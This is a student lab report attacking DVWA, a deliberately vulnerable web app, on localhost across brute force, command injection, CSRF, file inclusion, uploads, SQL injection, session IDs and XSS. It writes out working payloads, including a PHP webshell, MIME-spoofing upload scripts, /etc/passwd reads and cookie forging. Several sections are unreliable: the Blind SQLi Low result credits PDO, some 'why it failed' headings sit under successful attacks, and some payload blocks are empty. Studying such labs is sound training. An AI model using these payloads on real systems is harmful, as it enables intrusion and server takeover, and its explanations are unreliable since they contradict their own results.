# 🔐 DVWA Security Lab Report

## Table of Contents

1. [Brute Force](#1-brute-force)
2. [Command Injection](#2-command-injection)
3. [CSRF (Cross-Site Request Forgery)](#3-csrf-cross-site-request-forgery)
4. [File Inclusion](#4-file-inclusion)
5. [File Upload](#5-file-upload)
6. [Insecure CAPTCHA](#6-insecure-captcha)
7. [SQL Injection](#7-sql-injection)
8. [SQL Injection - Blind](#8-sql-injection-blind)
9. [Weak Session IDs](#9-weak-session-ids)
10. [DOM Based Cross Site Scripting (XSS)](#10-dom-based-cross-site-scripting-xss)
11. [Reflected Cross-Site Scripting (XSS)](#11-reflected-cross-site-scripting-xss)
12. [Stored Cross-Site Scripting (XSS)](#12-stored-cross-site-scripting-xss)
13. [Content Security Policy (CSP) Bypass](#13-content-security-policy-csp-bypass)
14. [JavaScript Attacks](#14-javascript-attacks)
15. [Docker Inspection](#15-docker-inspection)
16. [Security Analysis](#16-security-analysis)
17. [OWASP Top 10 Mapping](#17-owasp-top-10-mapping)

---

## 1. Brute Force

### Overview

Brute force attacks attempt to guess credentials by systematically trying many combinations.

---

### Security Level: Low

**Payload Used:**

```bash
username: admin
password: password
```

**Result:** Username and password found successfully.

> 

**Why it worked:**  
No rate limiting, no account lockout, no CAPTCHA. Requests are processed as fast as the server allows.

---

### Security Level: Medium

```bash
username: admin
password: password
```

**Result:** A `sleep(2)` delay is introduced per failed attempt, slowing brute force but not stopping it.

> 

---

### Security Level: High

```bash
username: admin
password: password
```

**Result:** Anti-CSRF token required per request. Each request needs a valid, fresh token, making automated brute force extremely difficult without token-harvesting logic.

> 

**Why it failed:**  
High level requires a user-specific token per login attempt. An automated tool would need to parse the HTML response, extract the token, and include it in each subsequent request which makes it computationally expensive and rate-limited.

---

## 2. Command Injection

### Overview

Command Injection allows an attacker to execute arbitrary OS commands by appending them to a legitimate application command.

---

### Security Level: Low

**Payload Used:**

```bash
127.0.0.1; cat /etc/passwd
```

**Steps:**

> 

**Result:** The `ping` command ran, then `cat /etc/passwd` executed and its output was displayed on the page.

**Why it worked:**  
DVWA passes input directly to `shell_exec()`:

---

### Security Level: Medium

**Payload Used:**

```bash
127.0.0.1 && cat /etc/passwd
```

> 

**Result:** `;` and `&&` on their own are sometimes blocked, but `&&` succeeds at Medium.

**Why it worked:**  
Medium only blacklists `&&` and `;` inconsistently — the filter is bypassable with `|` or `&&` depending on implementation. The blacklist does not cover all shell separators.

---

### Security Level: High

**Payload Attempted:**

```bash
127.0.0.1|whoami
```

> 

**Result:** The `|` without surrounding spaces works.

**Why it worked:** The high-security source code blacklists specific characters but the `|` without surrounding spaces is often missed by the filter.
---

## 3. CSRF (Cross-Site Request Forgery)

### Overview

CSRF tricks an authenticated user into unknowingly submitting a malicious request using their existing session.

---

### Security Level: Low

**Payload:**

```html
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://localhost:8080/vulnerabilities/csrf/" method="GET">
      <input name="password_new" value="hacked" />
      <input name="password_conf" value="hacked" />
      <input name="Change" value="Change" />
    </form>
  </body>
</html>
```


> 

**Result:** Password was changed to `hacked` without the user's knowledge.

**Why it worked:**  
No CSRF token is required. Any authenticated request from the browser is accepted regardless of origin.

---

### Security Level: Medium

**Payload:**

```javascript
fetch(window.location.href + "?password_new=hacked&password_conf=hacked&Change=Change", {
  credentials: "include"
}).then(r => r.text()).then(t => {
  if (t.includes("Password Changed")) {
    console.log("SUCCESS! Password changed.");
  } else {
    console.log("Failed. Response:", t);
  }
});
```

> 

**Result:** It only checks that the server name appears somewhere in the Referer — it doesn't fully validate it, making it bypassable.


---

### Security Level: High

**Result:** CSRF token was stolen and password was changed.

> 

**Why it worked:**  
DVWA's high-level CSRF is only protected against cross-origin attacks. Since the console runs from the same origin, it can read the token and reuse it immediately in a follow-up request

---

## 4. File Inclusion

### Overview

File Inclusion vulnerabilities allow attackers to include arbitrary files — either local (LFI) or remote (RFI) — in the server's execution context.

---

### Security Level: Low

**Payload Used (LFI):**

```
http://localhost:8080/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

> 

**Result:** Moved into the /etc directory and access the passwd file

**Why it worked:**  
The `page` parameter is passed directly to `include()` with no validation:

---

### Security Level: Medium

**Payload:**

```
http://localhost:8080/vulnerabilities/fi/?page=..././..././..././..././..././..././etc/passwd
```

> 

**Result:** Moved into the /etc directory and access the passwd file


**Why it worked:**  
Medium-level filtering strips `../` but not `....//`, allowing traversal.

---

### Security Level: High

**Payload:**

```
http://localhost:8080/vulnerabilities/fi/?page=file:///etc/passwd
```

> 

**Result:** Allows us to read local files from the system rather than from the web server

**Why it failed:**  
A strict whitelist approach means only known-safe files can be included.

---

## 5. File Upload

### Overview

### Security Level: Low

**Payload Used:**

A simple PHP webshell saved as `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```

> 

**Result:** The server allowed the upload of the php file.

**Why it worked:**  
No file type or extension validation. Any file is accepted and stored directly in the web root.

---

### Security Level: Medium

**Payload Used:**

```javascript
const phpCode = '<?php system($_GET["cmd"]); ?>';
const blob = new Blob([phpCode], { type: "image/jpeg" }); // Spoof MIME type
const file = new File([blob], "shell.php", { type: "image/jpeg" });

const formData = new FormData();
formData.append("uploaded", file);
formData.append("Upload", "Upload");

fetch("http://localhost:8080/vulnerabilities/upload/", {
  method: "POST",
  credentials: "include",
  body: formData
})
.then(r => r.text())
.then(html => {
  const match = html.match(/succesfully uploaded.*?\/([^\s<]+\.php)/i) || 
                html.match(/hackable\/uploads\/[^\s<"]+/i);
  console.log("Response:", html);
});
```

> 

**Result:** MIME-type bypass succeeds. The server checks `Content-Type` header but not actual file content.


**Why it worked:**  
Medium checks the `Content-Type` header sent by the client, which can be trivially modified with an intercepting proxy. The actual file content is not inspected.

---

### Security Level: High

**Payload Attempted:**

```javascript
const gifHeader = 'GIF89a';
const phpPayload = '<?php system($_GET["cmd"]); ?>';
const maliciousContent = gifHeader + phpPayload;
const blob = new Blob([maliciousContent], { type: "image/png" });
const file = new File([blob], "shell.php.png", { type: "image/png" });
const formData = new FormData();
formData.append("uploaded", file);
formData.append("Upload", "Upload");
fetch("http://localhost:8080//vulnerabilities/upload/", {
  method: "POST",
  credentials: "include",
  body: formData
})
.then(r => r.text())
.then(html => {
  const match = html.match(/(succes|error|invalid|Your image)[^<]*/i);
  if (match) {
    console.log("Result:", match[0]);
  } else {
    console.log(html.substring(1500, 2500));
  }
});
```

> 

**Result:** succesfully uploaded

**Why it failed:**  
The server only checked two things: the file extension and the MIME type, but never validated that the actual file contents were a real PNG image — so the PHP payload embedded inside was accepted without question.

---

## 6. Insecure CAPTCHA

### Overview

Insecure CAPTCHA vulnerabilities arise when the CAPTCHA verification process can be bypassed, allowing automated actions that should require human verification.

---

### Security Level: Low

> 📸 **[Screenshot: Insecure CAPTCHA – Low]**

---

### Security Level: Medium

> 📸 **[Screenshot: Insecure CAPTCHA – Medium]**

---

### Security Level: High

> 📸 **[Screenshot: Insecure CAPTCHA – High]**

---

## 7. SQL Injection

### Overview

SQL Injection occurs when user-supplied input is embedded directly into SQL queries without sanitization, allowing attackers to manipulate query logic.

---

### Security Level: Low

**Payload Used:**

```sql
1' OR '1'='1
```

**Steps:**

1. Navigated to `SQL Injection` module.
2. Entered the payload in the **User ID** field.
3. Clicked **Submit**.

**Result:** All user records from the database were returned, bypassing the intended single-user lookup.

> 📸 **[Screenshot: SQL Injection – Low – all records returned]**

**Why it worked:**  
At the Low level, DVWA passes user input directly into the SQL query with no sanitization:

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

The payload closes the string (`'`), appends `OR '1'='1` which is always true, causing all rows to be returned.

---

### Security Level: Medium

**Payload Used:**

```sql
1 OR 1=1
```

_(single quotes are escaped at this level, so a numeric injection is attempted)_

**Steps:**

1. Set security to **Medium**.
2. Used the dropdown (input is now a select element, not a text field).
3. Used browser developer tools / Burp Suite to intercept and modify the POST parameter `id` to `1 OR 1=1`.

**Result:** The `mysql_real_escape_string()` function escapes single quotes, but numeric injection without quotes still succeeds when input is not fully validated.

> 📸 **[Screenshot: SQL Injection – Medium – modified POST request and result]**

**Why it partially worked:**  
Medium level escapes special characters but still constructs the query dynamically. A parameterized query is not used, so numeric injections can bypass the escape-based defense.

---

### Security Level: High

**Payload Attempted:**

```sql
1' OR '1'='1
```

**Result:** Attack failed. A token-based mechanism and PDO prepared statements prevent injection.

> 📸 **[Screenshot: SQL Injection – High – no extra records returned]**

**Why it failed:**  
DVWA High level uses **PDO with parameterized queries**:

```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
```

The user input is never concatenated into the query string. Additionally, a CSRF token is required per request, preventing automated attacks.

---

## 8. SQL Injection - Blind

### Overview

Blind SQL Injection is a type of SQL Injection where the attacker does not see the output of the query directly, but can infer information based on the application's behavior (e.g., response time or content differences).

---

### Security Level: Low

**Payload Attempted:**

```sql
1' AND'1'='1'
```

**Result:** Attack failed. A token-based mechanism and PDO prepared statements prevent injection.

> 

---

### Security Level: Medium

**Payload Attempted:**

```sql
1' OR '1'='1
```

**Result:** Attack failed. A token-based mechanism and PDO prepared statements prevent injection.

> 

---

### Security Level: High

**Payload Attempted:**

```sql
1' OR '1'='1
```

**Result:** Attack failed. A token-based mechanism and PDO prepared statements prevent injection.

> 

---

## 9. Weak Session IDs

### Overview

Weak Session IDs occur when session tokens are generated using predictable algorithms, allowing attackers to guess or brute-force valid session identifiers and hijack user sessions.

---

### Security Level: Low

**Payload Attempted:**
```javascript
document.cookie = "dvwaSession=5";
```

> 

**Result**
We are able to manually change the session ID since it it an integer.

**Why it worked**
Session IDs are sequential integers starting at 1 since they are completely predictable

---

### Security Level: Medium

```javascript
document.cookie = `dvwaSession=${ts}`;
```

> 

**Result**
We are able to manually change the session ID since its based of off the unix timestamp.

**Why it worked**
The ID is just the current Unix time, which anyone can calculate or guess within seconds.
---

### Security Level: High

```javascript
const knownMD5s = {
  "c4ca4238a0b923820dcc509a6f75849b": "1",
  "c81e728d9d4c2f636f067f89cc14862c": "2",
  "eccbc87e4b5ce2fe28308fd9f2a7baf3": "3",
  "a87ff679a2f3e71d9181a67b7542122c": "4",
  "e4da3b7fbbce2345d7772b0674a318d5": "5"
};

const current = document.cookie.match(/dvwaSession=([^;]+)/);
console.log("Current session:", current ? current[1] : "not found");
console.log("Corresponds to count:", knownMD5s[current?.[1]] || "unknown");

document.cookie = "dvwaSession=c4ca4238a0b923820dcc509a6f75849b";
```

> 

**Why it worked**
MD5 of a predictable integer is still predictable — MD5 is not a secure source of randomness.
---

## 10. DOM Based Cross Site Scripting (XSS)

### Overview

DOM-based XSS occurs when client-side JavaScript processes user input and dynamically updates the DOM without proper sanitization, allowing script injection entirely within the browser.

---

### Security Level: Low

**Payload**
```
http://localhost:8080/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

> 

**Why it worked**
The default parameter is written directly into the page via document.write() or innerHTML with zero filtering.
---

### Security Level: Medium

**Payload**
```
http://localhost:8080/dvwa/vulnerabilities/xss_d/?default=English</option></select>
```

> 

**Why it worked**
The filter only blacklists ```<script>``` — breaking out of the <select> element with </option></select> allows injecting arbitrary HTML tags with event handlers.
---

### Security Level: High

**Payload**
```
http://localhost:8080/vulnerabilities/xss_d/?default=Spanish#%3Cscript%3Ealert('I%20was%20here')%3C/script%3E
```

> 

**Why it worked**
High security whitelists certain values but the DOM manipulation still happens client-side
---

## 11. Cross-Site Scripting (XSS) – Reflected

### Overview

Reflected XSS occurs when malicious script is injected via a URL parameter or form field and immediately reflected back in the HTTP response.

---

### Security Level: Low

**Payload Used:**

```html
<script>
  alert("XSS");
</script>
```

**Steps:**

1. Navigated to **XSS (Reflected)** module.
2. Entered the payload in the **Name** field.
3. Clicked **Submit**.

**Result:** A JavaScript alert box appeared with the message `XSS`, confirming script execution.

> 📸 **[Screenshot: XSS Reflected – Low – alert box popup]**

**Why it worked:**  
At Low level, DVWA directly reflects the input:

```php
echo '<pre>Hello ' . $_GET['name'] . '</pre>';
```

No sanitization is applied, so the browser interprets and executes the injected `<script>` tag.

---

### Security Level: Medium

**Payload Used:**

```html

```

_(because `<script>` tags are stripped with a simple `str_replace`)_

**Result:** The `<script>` tag is blocked but event-handler-based payloads succeed.

> 📸 **[Screenshot: XSS Reflected – Medium – alert via img onerror]**

**Why it worked:**  
Medium level uses `str_replace('<script>', '', $name)` — a blacklist approach that only blocks `<script>` tags but misses other HTML event handlers like `onerror`.

---

### Security Level: High

**Payload Attempted:**

```html
<script>
  alert("XSS");
</script>

```

**Result:** Both payloads failed. No script executed.

> 📸 **[Screenshot: XSS Reflected – High – sanitized output]**

**Why it failed:**  
High level applies `htmlspecialchars()`, which converts `<`, `>`, `"`, and `&` into their HTML entities (`&lt;`, `&gt;`, etc.). The browser renders them as literal text rather than executable HTML/JS.

---

## 12. Cross-Site Scripting (XSS) – Stored

### Overview

Stored XSS persists the malicious script in the database. It executes for every user who views the affected page — more dangerous than Reflected XSS.

---

### Security Level: Low

**Payload Used:**

```html
<script>
  alert("Stored XSS");
</script>
```

**Steps:**

1. Navigated to **XSS (Stored)** module.
2. Entered a name and the payload in the **Message** field.
3. Clicked **Sign Guestbook**.
4. Reloaded the page.

**Result:** The alert fired on every page load for every visitor.

> 📸 **[Screenshot: XSS Stored – Low – persistent alert on reload]**

**Why it worked:**  
Input is stored directly in the database without sanitization, and retrieved and rendered without encoding on display.

---

### Security Level: Medium

**Payload Used:**

```html

```

**Result:** `<script>` tags are stripped, but the `img` tag payload executes.

> 📸 **[Screenshot: XSS Stored – Medium – img onerror payload]**

---

### Security Level: High

**Payload Attempted:**

```html
<script>
  alert("XSS");
</script>
```

**Result:** Failed. Output is HTML-encoded on retrieval.

> 📸 **[Screenshot: XSS Stored – High – text rendered as plain text]**

**Why it failed:**  
High security applies `htmlspecialchars()` to both storage and retrieval. Even previously stored payloads are neutralized on output.

---

## 13. Content Security Policy (CSP) Bypass

### Overview

Content Security Policy is an HTTP response header that restricts which resources (scripts, styles, etc.) can be loaded. CSP bypass vulnerabilities occur when the policy is misconfigured or too permissive, allowing an attacker to execute scripts despite CSP protections.

---

### Security Level: Low

> 📸 **[Screenshot: CSP Bypass – Low]**

---

### Security Level: Medium

> 📸 **[Screenshot: CSP Bypass – Medium]**

---

### Security Level: High

> 📸 **[Screenshot: CSP Bypass – High]**

---

## 14. JavaScript Attacks

### Overview

JavaScript attacks in DVWA demonstrate how client-side validation and obfuscation can be bypassed. When security logic relies solely on JavaScript running in the browser, an attacker can manipulate or bypass it entirely.

---

### Security Level: Low

> 📸 **[Screenshot: JavaScript Attacks – Low]**

---

### Security Level: Medium

> 📸 **[Screenshot: JavaScript Attacks – Medium]**

---

### Security Level: High

> 📸 **[Screenshot: JavaScript Attacks – High]**

---

## 15. Docker Inspection

### 15.1 `docker ps`

```bash
docker ps
```

> 📸 **[Screenshot: docker ps output]**

Shows the running DVWA container, its ID, image name, uptime, and port mapping (`0.0.0.0:8080->80/tcp`).

---

### 15.2 `docker inspect dvwa`

```bash
docker inspect dvwa
```

> 📸 **[Screenshot: docker inspect dvwa (partial output)]**

Key findings:

- **Image:** `vulnerables/web-dvwa`
- **IPAddress:** Assigned internal Docker bridge IP (e.g., `172.17.0.2`)
- **Mounts:** No persistent volumes — all data is ephemeral inside the container
- **Env:** Contains `APACHE_RUN_USER`, `PHP_VERSION`, `MYSQL_*` variables
- **NetworkSettings:** Bridge network, isolated from host except on mapped port 8080

---

### 15.3 `docker logs dvwa`

```bash
docker logs dvwa
```

> 📸 **[Screenshot: docker logs dvwa]**

Shows Apache access logs and MySQL startup messages. Reveals HTTP requests made during testing, including GET/POST parameters in some cases — a reminder not to expose this publicly.

---

### 15.4 Inside the Container

```bash
docker exec -it dvwa /bin/bash
```

```bash
# Once inside:
ls /var/www/html
```

**Output:**

```
about.php  config  dvwa  external  favicon.ico  hackable  ids_log.php  index.php
instructions.php  login.php  logout.php  phpinfo.php  robots.txt  security.php  setup.php
```

> 📸 **[Screenshot: ls /var/www/html inside the container]**

---

### 15.5 Analysis: Docker Environment

| Question                                | Answer                                                                                                                                                                                                                                                                  |
| --------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Where are app files stored?**         | `/var/www/html` — served by Apache web server inside the container                                                                                                                                                                                                      |
| **Backend technology**                  | PHP + Apache + MySQL (LAMP stack). PHP scripts process requests; MySQL stores user/session data                                                                                                                                                                         |
| **How Docker isolates the environment** | The container has its own filesystem, network namespace, and process space. The only exposure to the host is port 8080 (mapped). The container's internal network is a private bridge. Processes inside cannot access host processes or files unless explicitly mounted |

---

## 16. Security Analysis

### Q1: Why does SQL Injection succeed at Low security?

At Low security, user input is interpolated directly into SQL query strings without any escaping or parameterization. The PHP code constructs queries like:

```php
$query = "SELECT * FROM users WHERE user_id = '$id';";
```

An attacker can break out of the string context using a single quote and inject arbitrary SQL logic. There is no input validation, no prepared statement, and no output encoding — all three defenses are absent.

---

### Q2: What control prevents SQL Injection at High security?

DVWA's High level uses **PDO Prepared Statements with bound parameters**:

```php
$stmt = $db->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id LIMIT 1");
$stmt->bindParam(':id', $id, PDO::PARAM_INT);
$stmt->execute();
```

With parameterized queries, the SQL structure is defined before user data is supplied. The database engine treats user input strictly as a data value — never as executable SQL syntax. Even a fully crafted injection payload is treated as a literal string and will not match any record, rather than altering query logic.

---

### Q3: Does HTTPS prevent these attacks? Why or why not?

**No.** HTTPS encrypts data **in transit** between the client and server — it protects against network-level eavesdropping and man-in-the-middle attacks. However:

- **SQL Injection, XSS, Command Injection, File Upload** are **server-side processing vulnerabilities**. Once the encrypted HTTPS connection terminates at the server, the raw payload is handed to the application. HTTPS plays no role in how the application processes that data.
- HTTPS does **not** validate, sanitize, or restrict HTTP request contents.
- A vulnerability that exists over HTTP exists identically over HTTPS.

HTTPS is essential for confidentiality and integrity of communication but is not a substitute for input validation, output encoding, or parameterized queries.

---

### Q4: What risks exist if DVWA is deployed publicly?

| Risk                                     | Impact                                                                                                         |
| ---------------------------------------- | -------------------------------------------------------------------------------------------------------------- |
| **Full database compromise**             | SQL Injection can extract, modify, or delete all data including user credentials                               |
| **Remote Code Execution**                | Command Injection and File Upload webshells give the attacker shell access on the server                       |
| **Persistent XSS attacks on real users** | Stored XSS can steal session cookies, redirect users, or deliver malware to every visitor                      |
| **Account takeover**                     | Brute force with no lockout allows password guessing at scale                                                  |
| **Lateral movement**                     | With a shell inside the Docker container, attackers may escape to the host or pivot to other network resources |
| **Reputational and legal damage**        | Compromised systems hosting malware or being used in attacks expose the operator to legal liability            |
| **Data exfiltration**                    | LFI/RFI can read sensitive server files including configuration, private keys, and `/etc/shadow`               |

**DVWA is intentionally vulnerable and must never be internet-accessible.**

---

## 17. OWASP Top 10 Mapping

| Vulnerability Tested                    | OWASP Top 10 (2021) Category                                                       |
| --------------------------------------- | ---------------------------------------------------------------------------------- |
| SQL Injection                           | **A03:2021 – Injection**                                                           |
| XSS (Reflected & Stored)                | **A03:2021 – Injection**                                                           |
| Command Injection                       | **A03:2021 – Injection**                                                           |
| File Inclusion (LFI/RFI)                | **A03:2021 – Injection**                                                           |
| Insecure File Upload                    | **A04:2021 – Insecure Design** / **A08:2021 – Software & Data Integrity Failures** |
| Brute Force (no lockout)                | **A07:2021 – Identification and Authentication Failures**                          |
| CSRF                                    | **A01:2021 – Broken Access Control**                                               |
| Missing HTTPS / sensitive data exposure | **A02:2021 – Cryptographic Failures**                                              |
| Verbose error messages / docker logs    | **A05:2021 – Security Misconfiguration**                                           |
| Outdated/vulnerable components          | **A06:2021 – Vulnerable and Outdated Components**                                  |

---

## Summary

This lab demonstrated how the absence of a few core secure coding practices — **input validation**, **output encoding**, **parameterized queries**, **CSRF tokens**, and **file type verification** — leads to exploitable vulnerabilities across every DVWA module. The progression from Low → Medium → High security levels illustrated that:

- **Blacklists fail** (Medium level) because edge cases are almost always missed.
- **Whitelists and parameterization succeed** (High level) because they define what is allowed rather than what is blocked.
- Security in depth (multiple controls layered together) is necessary — no single control is sufficient.

---

_Report authored as part of Application Security Testing assignment. Environment: DVWA running on Docker (local machine only). All payloads executed against localhost:8080._
